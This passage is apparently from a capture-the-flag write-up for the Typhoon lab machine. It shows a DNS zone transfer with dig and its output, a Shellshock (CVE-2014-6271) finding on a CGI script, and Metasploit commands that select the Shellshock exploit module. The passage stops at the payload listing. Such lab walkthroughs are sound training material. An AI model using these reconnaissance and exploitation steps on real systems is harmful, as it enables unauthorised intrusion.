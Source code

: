 The DNS server is probably serving typhoon.local, let's try to perform a zone transfer!

```
$ dig axfr @10.99.59.112 typhoon.local

; <<>> DiG 9.11.5-P1-1-Debian <<>> axfr @10.99.59.112 typhoon.local
; (1 server found)
;; global options: +cmd
typhoon.local.		3600	IN	SOA	ns.prismacsi.com. enes.prismacsi.com. 1 3600 600 86400 3600
typhoon.local.		3600	IN	NS	ns1.typhoon.local.
typhoon.local.		3600	IN	NS	ns2.typhoon.local.
calendar.typhoon.local.	3600	IN	CNAME	wwww.typhoon.local.
flag.typhoon.local.	3600	IN	TXT	"<FLAG>"
ns1.typhoon.local.	3600	IN	A	192.168.1.5
ns2.typhoon.local.	3600	IN	A	192.168.1.6
prisma.typhoon.local.	3600	IN	A	192.168.1.8
secretmessage.typhoon.local. 3600 IN	TXT	"prismacsi.com"
www.typhoon.local.	3600	IN	A	192.168.1.7
typhoon.local.		3600	IN	SOA	ns.prismacsi.com. enes.prismacsi.com. 1 3600 600 86400 3600
;; Query time: 1 msec
;; SERVER: 10.99.59.112#53(10.99.59.112)
;; WHEN: Thu Feb 14 15:38:27 EST 2019
;; XFR size: 11 records (messages 1, bytes 338)
```

We got a flag! 1/4 flags.

## Step 2: Breaking into the machine

### Shellshock

```
[...]
+ OSVDB-112004: /cgi-bin/test.sh: Site appears vulnerable to the 'shellshock' vulnerability
(http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271).
[...]
```

The machine appears to be vulnerable to Shellshock. It was a critical vulnerability
discovered in 2014 that affected OSes which shipped the Bash shell, including, but
not limited to Linux and Mac OS X. We'll use it to spawn a shell in the system.

In Metasploit:

```
msf5 > search shellshock

Matching Modules
================

   Name                                               Disclosure Date  Rank       Check  Description
   ----                                               ---------------  ----       -----  -----------
   auxiliary/scanner/http/apache_mod_cgi_bash_env     2014-09-24       normal     Yes    Apache mod_cgi Bash Environment Variable Injection (Shellshock) Scanner
   [...]
   exploit/multi/http/apache_mod_cgi_bash_env_exec    2014-09-24       excellent  Yes    Apache mod_cgi Bash Environment Variable Code Injection (Shellshock)
   [...]

msf5 > use exploit/multi/http/apache_mod_cgi_bash_env_exec
msf5 exploit(multi/http/apache_mod_cgi_bash_env_exec) > show payloads

Compatible Payloads
===================
```